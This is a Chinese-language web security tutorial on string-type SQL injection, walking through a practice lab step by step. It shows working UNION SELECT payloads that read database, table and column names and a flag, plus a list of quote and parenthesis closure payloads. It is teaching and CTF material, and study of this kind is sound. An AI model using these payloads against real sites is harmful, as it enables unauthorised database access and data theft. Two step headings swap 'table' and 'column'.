 <!--
author: maomao
date: 2019-01-24
title: 2.4 SQL注入之字符型报错注入
category: web安全入门
status: publish
summary:字符型注入就是把输入的参数当做字符串对数据库进行查询，字符型注入在sql语句中都采用单引号括起来。
-->
#2.3、sql注入之字符型注入

##一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。


##二、前言

本节课程中将会讲解单引号、双引号以及字符型报错注入三小节的内容。


##三、什么是字符型注入

字符型注入就是把输入的参数当做字符串对数据库进行查询，字符型注入在sql语句中都采用单引号括起来。字符型注入与数字型注入最大的区别是数字类型不需要单引号闭合，而字符型串类型需要单引号闭合。

这里解释一下为什么需要闭合

以我们的靶场为例，链接如下：

>http://xx.xx.xx.xx:8080/sql/Less-1/index.php?id=1

查看一下网站源码，可以后台sql语句如下:

![](img/2.3/1.png)

再这里我们利用 or 1=1 来验证网站是否存在注入，如果我们不进行闭合,链接如下：

>http://xx.xx.xx.xx:8080/sql/Less-1/index.php?id=1 or 1=1 --+

这个链接的后台sql语句

>SELECT * FROM users WHERE id='1  or 1=1 --+' LIMIT 0,1

由此可以得知，1前面的单引号没有被闭合。由于拼接了非法了sql语句，数据库无法执行,故无法注入成功。我们是想在数据库中查询出我们想要的数据，就需要对其进行闭合。现构造链接如下：

>http://xx.xx.xx.xx:8080/sql/Less-1/index.php?id=1' or 1=1 --+

此链接的后台sql如下：

SELECT * FROM  users WHERE id='1 ’ or 1=1 --+' LIMIT 0,1

因--+后面被注释，我们讲前半部分带入数据库中执行,如下图可以发现执行成功。将or 1=1 换成其他的sql语句便可以从数据库查询出我们需要的数据。

![](img/2.3/2.png)

##四、字符型单引号注入实战

靶场地址：http://xx.xx.xx.xx:8080/sql/Less-1/index.php?id=1

若有细节不懂的地方，可以翻看前几次课程，或者随时在星球内提问。

###1.判断注入点

在id=1的后面添加一个单引号，然后报出错误。说明此处存在注入。

![](img/2.3/3.png )

###2.报错信息分析

报错语句分析：

>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

报错语句中一共有五个引号，去除最外面两个标示错误位置的引号，还有三个，1左边一个，右边两个，我们刚刚在1后面添加了一个引号。由此可以得知，这是单引号字符型报错注入。

###3.进行闭合

我们尝试用or 1=1 进行闭合。构造链接如下

>http://xx.xx.xx.xx:8080/sql/Less-1/index.php?id=1' or 1=1 --+

构造成功

![](img/2.3/4.png)

###4.判断列数

>http://xx.xx.xx.xx:8080/sql/Less-1/index.php?id=1' order by 4--+

![](img/2.3/5.png)

###5.判断回显位置

>http://xx.xx.xx.xx:8080/sql/Less-1/index.php?id=-1' union select 1,2,3--+

![](img/2.3/6.png)

###6.查询数据名

>http://xx.xx.xx.xx:8080/sql/Less-1/index.php?id=-1 ' union select 1,group_concat(schema_name),3 from information_schema.schemata--+

![](img/2.3/7.png)

###7.查询列名

>http://xx.xx.xx.xx:8080/sql/Less-1/index.php?id=-1 ' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security '--+

![](img/2.3/8.png)

###8.查询表名

> http://xx.xx.xx.xx:8080/sql/Less-1/index.php?id=-1 ' union select 1,group_concat(column_name),3 from information_schema.columns where table_name= 'flag '--+

![](img/2.3/9.png )

###9.查询数据

>http://xx.xx.xx.xx:8080/sql/Less-1/index.php?id=-1'union select 1,flag,3 from flag--+

![](img/2.3/10.png)

成功查询出数据。


##五、其他类型字符串注入漏洞

在实际的渗透中,字符型注入并不都是由单引号闭合。还有双引号，单括号，双括号，或者前几种组合等可能，下面提供一份常见的闭合列表

> or 1=1 --+

> 'or 1=1 --+

> "or 1=1 --+

> )or 1=1 --+

> ')or 1=1 --+

> ") or 1=1 --+

> "))or 1=1 --+

以上这些类型的注入与我们上文的单引号注入漏洞并无本质的区别，唯一的区别就是在注入时闭合方式的不同，其他与上述相同。在后面的习题中会给出相应的练习题，请大家自行尝试，然后在稍后的我会给出解题文档。

##六、课后习题

单引号字符型注入：

>http://xx.xx.xx.xx/challenges#%E5%8D%95%E5%BC%95%E5%8F%B7%E5%AD%97%E7%AC%A6%E5%9E%8B

单引号+单括号字符型注入：

>http://xx.xx.xx.xx/challenges#%E5%8D%95%E5%BC%95%E5%8F%B7+%E5%8D%95%E6%8B%AC%E5%8F%B7%E5%AD%97%E7%AC%A6%E5%9E%8B%E6%B3%A8%E5%85%A5

双引号+单括号注入

>http://xx.xx.xx.xx/challenges#%E5%8F%8C%E5%BC%95%E5%8F%B7+%E5%8D%95%E6%8B%AC%E5%8F%B7%E5%AD%97%E7%AC%A6%E5%9E%8B%E6%B3%A8%E5%85%A5
